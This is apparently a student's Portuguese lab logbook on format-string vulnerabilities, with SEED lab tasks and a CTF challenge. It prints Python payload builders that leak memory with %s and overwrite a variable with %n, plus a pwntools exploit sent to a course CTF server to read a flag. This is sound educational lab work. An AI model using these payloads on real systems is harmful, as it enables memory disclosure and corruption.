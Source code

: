 # LOGBOOK 7

## Tarefa 1

Nesta tarefa tinhamos como objetivo causar o crash do servidor.

**Código injetado para o servidor.**<br>
![image 1](docs/images/Captura_de_ecr%C3%A3_2023-11-17_180216.png)

**Servidor sem crash, ou seja, aparece:**<br>
`(^_^)(^_^)  Returned properly (^_^)(^_^)`

![image 2](docs/images/Captura_de_ecr%C3%A3_2023-11-17_175035.png)

**Código injetado que causa crash do servidor.**<br>
![image 3](docs/images/Captura_de_ecr%C3%A3_2023-11-17_180241.png)

**Servidor com crash, ou seja, não aparece:**<br>
`(^_^)(^_^)  Returned properly (^_^)(^_^)`<br>

![image 4](docs/images/Captura_de_ecr%C3%A3_2023-11-17_180302.png)

## Tarefa 2.A

Nesta tarefa tinhamos de descubrir quantos %x eram necessários para fazer print dos 4 primeiros bytes do input. Escolhemos `@@@@`, pois podemos identificá-lo facilmente por `0x40404040`.

**Código que injetamos, com 64 vezes `%x`.**<br>
![image 5](docs/images/Captura_de_ecr%C3%A3_2023-11-17_184517.png)

**Servidor com `0x40404040`.**<br>
![image 6](docs/images/Captura_de_ecr%C3%A3_2023-11-17_184539.png)

## Tarefa 2.B

Nesta tarefa tinhamos de usar o conhecimento obtido na tarefa 2.A para obter uma mensagem secreta do servidor.
Para isso, modificámos o *build_string.py* que nos foi disponibilizada.

***build_string.py* usada.**<br>
```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080b4008
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
#content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%.8x"*63 + "%s"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```
**Servidor com a mensagem secreta.**<br>
![image 7](docs/images/Captura_de_ecr%C3%A3_2023-11-17_191650.png)

## Tarefa 3.A

Nesta tarefa tinhamos como objetivo alterar o `target` para qualquer valor. Para esse fim usamos `%n`.

***build_string.py* usada.**<br>
```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
#content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%.8x"*63 + "%n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

**Servidor com o `target` alterado.**<br>
![image 8](docs/images/Captura_de_ecr%C3%A3_2023-11-17_194820.png)

## Tarefa 3.B

Nesta tarefa tinhamos como objetivo alterar o valor do `target`para `0x5000`. Como `0x5000` em decimal é `20480` acrescentámos `19980` bytes antes do `%n` na forma de `%x`.

***build_string.py* usada.**<br>
```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
#content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%.8x"*62 + "%19980x" + "%n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

**Servidor com o `target` alterado para `0x5000`.**<br>
![image 9](docs/images/Captura_de_ecr%C3%A3_2023-11-17_195730.png)

## CTF - Desafio 1

### Investigação

- Usámos `checksec program` para conseguir as seguintes informções:<br>
![image 10](docs/images/Captura_de_ecr%C3%A3_2023-11-18_011153.png)

- `program` tem um *canary* o que dificulta *stack smashing attacks*.
- O NX está ativado o que previne *buffer overflow*.
- PIE está desativado, logo o programa e os ficheiros estão sempre nas mesmas posições o que significa que é mais fácil de os localizar.

### Vulnerabilidade e Exploit

- O código `printf(buffer);` é uma Vulnerabilidade, pois não expecifica o formato da string de que vai fazer print
o que nos permite usar para conseguir ver a `flag`.
- A `flag` está carregada na memória e pode ser acessada com `%s`.
- Com o uso de **gdb** podemos chegar obter o endereço da `flag`.<br>
![image 11](docs/images/Captura_de_ecr%C3%A3_2023-11-18_012832.png)
- O endereço da `flag`, `0x804c060` em little endian de 32 bits é `\x60\xC0\x04\x08` que concatenamos com `%s` e colocamos no *exploit_example.py* para obter a flag.
```python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:
    p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")
p.sendline(b"\x60\xC0\x04\x08%s")
p.interactive()
```

**Flag obtida após executar o exploit.**<br>

![image 12](docs/images/Captura_de_ecr%C3%A3_2023-11-18_013800.png)

## CTF - Desafio 2
